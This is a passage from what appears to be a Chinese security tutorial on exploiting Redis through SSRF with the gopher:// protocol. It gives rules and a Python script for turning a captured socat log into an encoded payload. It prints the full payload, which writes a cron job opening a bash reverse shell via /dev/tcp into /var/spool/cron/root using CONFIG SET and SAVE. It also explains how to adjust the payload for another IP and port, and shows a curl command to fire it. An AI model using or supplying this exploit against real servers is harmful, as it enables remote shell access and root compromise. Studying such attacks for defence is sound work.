 ```
quit\r
< 2017/10/11 01:24:52.446148  length=5 from=0 to=4
+OK\r
```
转换规则如下：

如果第一个字符是>或者< 那么丢弃该行字符串，表示请求和返回的时间。
如果前3个字符是+OK 那么丢弃该行字符串，表示返回的字符串。
将\r字符串替换成%0d%0a
空白行替换为%0a
写了个脚本进行转换：tran2gopher.py
```python
python tran2gopher.py socat.log
#coding: utf-8
#author: JoyChou
import sys

exp = ''

with open(sys.argv[1]) as f:
    for line in f.readlines():
        if line[0] in '><+':
            continue
        # 判断倒数第2、3字符串是否为\r
        elif line[-3:-1] == r'\r':
            # 如果该行只有\r，将\r替换成%0a%0d%0a
            if len(line) == 3:
                exp = exp + '%0a%0d%0a'
            else:
                line = line.replace(r'\r', '%0d%0a')
                # 去掉最后的换行符
                line = line.replace('\n', '')
                exp = exp + line
        # 判断是否是空行，空行替换为%0a
        elif line == '\x0a':
            exp = exp + '%0a'
        else:
            line = line.replace('\n', '')
            exp = exp + line
print exp
```
结果为：
```
*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$58%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a
```
需要注意的是，如果要换IP和端口，前面的$58也需要更改，$58表示字符串长度为58个字节，上面的EXP即是%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0a，3+51+4=58。如果想换成42.256.24.73，那么$58需要改成$61，以此类推就行。

本地cURL测试是否成功写入：
```
curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$58%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'
```
返回5个OK
